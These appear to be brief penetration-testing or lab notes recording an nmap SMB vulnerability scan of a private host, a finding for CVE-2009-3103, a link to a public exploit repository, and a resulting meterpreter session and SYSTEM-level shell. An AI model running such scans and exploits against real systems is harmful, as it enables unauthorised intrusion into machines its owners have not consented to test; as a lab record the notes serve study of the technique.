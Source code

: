 sudo nmap \-sS \-sV \-\-script=smb\-vuln\* \-p 139,445 192\.168\.199\.40
VULNERABLE:
|   SMBv2 exploit \(CVE\-2009\-3103, Microsoft Security Advisory 975497\)

-  [https://github.com/Sic4rio/CVE-2009-3103---srv2.sys-SMB-Code-Execution-Python-MS09-050-.git](#https://github.com/Sic4rio/CVE-2009-3103---srv2.sys-SMB-Code-Execution-Python-MS09-050-.git)

-  gained meterpreter session

-  shell
-  C:\\Windows\\system32\>whoami                                                                                          
whoami                                                                                                              
nt authority\\system
